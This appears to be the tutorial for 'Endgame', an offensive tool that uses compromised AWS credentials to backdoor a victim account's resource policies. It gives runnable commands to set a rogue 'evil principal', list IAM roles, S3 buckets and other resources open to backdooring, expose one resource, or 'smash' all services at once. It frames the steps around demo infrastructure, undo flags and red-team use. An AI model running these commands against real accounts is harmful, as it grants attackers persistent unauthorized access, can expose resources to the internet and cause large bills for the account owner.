

# Tutorial

The prerequisite for an attacker running Endgame is they have access to AWS API credentials for the victim account which have privileges to update resource policies.

Endgame can run in two modes, `expose` or `smash`. The less-destructive `expose` mode is surgical, updating the resource policy on a single attacker-defined resource to include a back door to a principal they control (or the internet if they're mean).

`smash`, on the other hand, is more destructive (and louder). `smash` can run on a single service or all supported services. In either case, for each service it enumerates a list of resources in that region, reads the current resource policy on each, and applies a new policy which includes the "evil principal" the attacker has specified. The net effect of this is that depending on the privileges they have in the victim account, an attacker can insert dozens of back doors which are not controlled by the victim's IAM policies.

## Step 1: Setup

* First, authenticate to AWS CLI using credentials to the victim's account.

* Set the environment variables for `EVIL_PRINCIPAL` (required). Optionally, set the environment variables for `AWS_REGION` and `AWS_PROFILE`.

```bash
# Set `EVIL_PRINCIPAL` environment variable to the rogue IAM User or 
# Role that you want to give access to.
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

# If you don't supply these values, these will be the defaults.
export AWS_REGION="us-east-1"
export AWS_PROFILE="default"
```

## Step 2: Create Demo Infrastructure

This program makes modifications to live AWS Infrastructure, which can vary from account to account. We have bootstrapped some of this for you using [Terraform](https://www.terraform.io/intro/index.html). **Note: This will create real AWS infrastructure and will cost you money.**

```bash
# To create the demo infrastructure
make terraform-demo
```

## Step 3: List Victim Resources

You can use the `list-resources` command to list resources in the account that you can backdoor.

* Examples:

```bash
# List IAM Roles, so you can create a backdoor via their AssumeRole policies
endgame list-resources -s iam

# List S3 buckets, so you can create a backdoor via their Bucket policies 
endgame list-resources --service s3

# List all resources across services that can be backdoored
endgame list-resources --service all
```

## Step 4: Backdoor specific resources

* Use the `--dry-run` command first to test it without modifying anything:

```bash
endgame expose --service iam --name test-resource-exposure --dry-run
```

* To create the backdoor to that resource from your rogue account, run the following:

```bash
endgame expose --service iam --name test-resource-exposure
```

Example output:




## Step 5: Roll back changes

* If you want to atone for your sins (optional) you can use the `--undo` flag to roll back the changes.

```bash
endgame expose --service iam --name test-resource-exposure --undo
```


## Step 6: Smash your AWS Account to Pieces

* To expose every exposable resource in your AWS account, run the following command.

> Warning: If you supply the argument `--evil-principal *` or the environment variable `EVIL_PRINCIPAL=*`, it will expose the account to the internet. If you do this, it is possible that an attacker could assume your privileged IAM roles, take over the other [supported resources](https://endgame.readthedocs.io/en/latest/#supported-backdoors) present in that account, or incur a massive bill. As such, you might want to set `--evil-principal` to your own AWS user/role in another account.

```bash
endgame smash --service all --dry-run
endgame smash --service all
endgame smash --service all --undo
```

## Step 7: Destroy Demo Infrastructure

* Now that you are done with the tutorial, don't forget to clean up the demo infrastructure.

```bash
# Destroy the demo infrastructure
make terraform-destroy
```